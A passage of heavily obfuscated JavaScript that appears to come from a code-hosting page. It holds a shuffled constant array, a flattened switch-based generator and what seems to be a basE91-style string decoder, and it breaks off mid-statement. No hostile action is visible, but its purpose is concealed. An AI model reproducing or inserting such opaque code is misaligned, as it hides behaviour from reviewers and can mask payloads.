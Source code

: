 Function("m6YVyRN","var qkDhW79,kYrfbvs,CWX_kDd,hSVBlu,lDtgPZ2,w8OpK46,zDCTDfx,lMLVA_,JvqYPhd,ndQ4gnV;function Fm2efz8(qkDhW79,kYrfbvs,CWX_kDd){for(CWX_kDd=0x0;CWX_kDd<kYrfbvs;CWX_kDd++)qkDhW79.push(qkDhW79.shift());return qkDhW79}const AbLFW6=[\"length\",0x1,0x8,0x0,0x26,0x3,0x69,\"i\",\"g\",0xd9,0x70,0x4,0xff,\"c\",0x2,\"b\",0x8d,\"undefined\",0x3f,0x6,\"fromCodePoint\",0x7,0xc,\"push\",void 0x0,0x5b,0x1fff,0x58,0xd,0xe,0x44,\"d\",0xa7,0x8c,\"f\",0x7f,0x80,!0x1,0x5d,0xaf,0xb1,\"e\",0xc9,0x1d,0xdf,0xe4,0x6a,0x5,0xdd,\"H\",0xef,0xc2,0x36,0xa1,0x95,\"h\",\"a\",0x3e8,0x10f,0x111,0x117,0x73,0x9,0x5a,0xca,0x4f,0x3e,0x12f,0xa0,0x13e,\"S\",0x126,0x153,0x152,0x158,0x13b,0x59,0x11,0x27,0xf0,0x29,0xbf,0x20,0x175,0x51,0x5f,0x50,0x64,0xc8,0x6e,0xc6,0xb,0x11c,\"t\",\"p\",0x87,0x56,0x86,0x37,\"id\",0x1a3,\"nt\",0x1ab,0x1ae,0x68,0x3d,0x52,0x4b,!0x0,0xa5,0x1b5,0x123,0x22,0xde,0x6c,0x1c2,0x1c7];VDZO3X(oArdQ9(T6U7eQy),oArdQ9(pIHIjIS));function oArdQ9(qkDhW79,kYrfbvs=AbLFW6[0x1]){Object.defineProperty(qkDhW79,AbLFW6[0x0],{value:kYrfbvs,configurable:AbLFW6[0x25]});return qkDhW79}function pIHIjIS(...qkDhW79){var kYrfbvs,CWX_kDd;function*hSVBlu(CWX_kDd,hSVBlu,lDtgPZ2,w8OpK46={vkRTsA:{}}){while(CWX_kDd+hSVBlu+lDtgPZ2!==-0xf5)with(w8OpK46.bSSmf0h||w8OpK46)switch(CWX_kDd+hSVBlu+lDtgPZ2){case 0x8:VDZO3X(w8OpK46.bSSmf0h=w8OpK46.vkRTsA,CWX_kDd+=-0x9,hSVBlu+=0x3c,lDtgPZ2+=0x96);break;case lDtgPZ2!=0x124&&lDtgPZ2-0x131:VDZO3X([w8OpK46.vkRTsA.iCf9nt,w8OpK46.vkRTsA.shrxK6]=[0x15,-0x94],qkDhW79[AbLFW6[hSVBlu+0xad]].push((qkDhW79[AbLFW6[0x9]]|qkDhW79[AbLFW6[CWX_kDd+0x97]]<<qkDhW79[-AbLFW6[0xa]])&AbLFW6[0xc]),w8OpK46.bSSmf0h=w8OpK46.vkRTsA,CWX_kDd+=-0x9,hSVBlu+=-0x88,lDtgPZ2+=0xa5);break;case hSVBlu-0x1ea:for(qkDhW79[AbLFW6[hSVBlu+-0x205]]=AbLFW6[0x3];qkDhW79[AbLFW6[CWX_kDd+0x2b5]]<qkDhW79[AbLFW6[0x5]];qkDhW79[AbLFW6[0x4]]++){qkDhW79[AbLFW6[CWX_kDd+0x2b8]]=qkDhW79[AbLFW6[0x6]].indexOf(qkDhW79[-AbLFW6[CWX_kDd+0x2b3]][qkDhW79[AbLFW6[0x4]]]);if(qkDhW79[AbLFW6[0x7]]===-AbLFW6[0x1])continue;if(qkDhW79[AbLFW6[0x8]]<AbLFW6[0x3]){qkDhW79[AbLFW6[0x8]]=qkDhW79[AbLFW6[hSVBlu+-0x202]]}else{VDZO3X(qkDhW79[AbLFW6[0x8]]+=qkDhW79[AbLFW6[CWX_kDd+0x2b8]]*AbLFW6[0x19],qkDhW79[AbLFW6[0x9]]|=qkDhW79[AbLFW6[0x8]]<<qkDhW79[-AbLFW6[0xa]],qkDhW79[-AbLFW6[0xa]]+=(qkDhW79[AbLFW6[CWX_kDd+0x2b9]]&AbLFW6[0x1a])>AbLFW6[0x1b]?AbLFW6[0x1c]:AbLFW6[0x1d]);do{VDZO3X(qkDhW79[AbLFW6[0xb]].push(qkDhW79[AbLFW6[CWX_kDd+0x2ba]]&AbLFW6[0xc]),qkDhW79[AbLFW6[CWX_kDd+0x2ba]]>>=AbLFW6[0x2],qkDhW79[-AbLFW6[0xa]]-=AbLFW6[0x2])}while(qkDhW79[-AbLFW6[hSVBlu+-0x1ff]]>AbLFW6[CWX_kDd+0x2c6]);qkDhW79[AbLFW6[0x8]]=-AbLFW6[0x1]}}if(qkDhW79[AbLFW6[0x8]]>-AbLFW6[0x1]){VDZO3X(w8OpK46.bSSmf0h=w8OpK46.vkRTsA,CWX_kDd+=0x219,hSVBlu+=-0x1b6,lDtgPZ2+=0x4f);break}else{VDZO3X(w8OpK46.bSSmf0h=w8OpK46.vkRTsA,CWX_kDd+=0x219,hSVBlu+=-0x333,lDtgPZ2+=0x4f);break}case 0x57:case 0x9a:case lDtgPZ2-0xc2:VDZO3X(w8OpK46.bSSmf0h=w8OpK46.vkRTsA,CWX_kDd+=0x75,hSVBlu+=0x8,lDtgPZ2+=0x96);break;case-0x2e:case-0x78:case CWX_kDd- -0x373:VDZO3X(qkDhW79[-AbLFW6[0xa]]=AbLFW6[hSVBlu+-0xb5],qkDhW79[AbLFW6[CWX_kDd+0x2b9]]=-AbLFW6[hSVBlu+-0xb7],w8OpK46.bSSmf0h=w8OpK46.vkRTsA,hSVBlu+=0x151,lDtgPZ2+=-0x1f4);break;case-0xdf:case-0x1b:case 0xb1:VDZO3X(qkDhW79[AbLFW6[0xb]]=[],qkDhW79[AbLFW6[0x9]]=AbLFW6[hSVBlu+-0xe8],w8OpK46.bSSmf0h=w8OpK46.vkRTsA,hSVBlu+=-0x33,lDtgPZ2+=0x1d4);break;case hSVBlu-0x5b:VDZO3X(w8OpK46.bSSmf0h=w8OpK46.vkRTsA,CWX_kDd+=0x43,hSVBlu+=-0xc,lDtgPZ2+=0x96);break;case lDtgPZ2!=0x71&&lDtgPZ2-0x131:case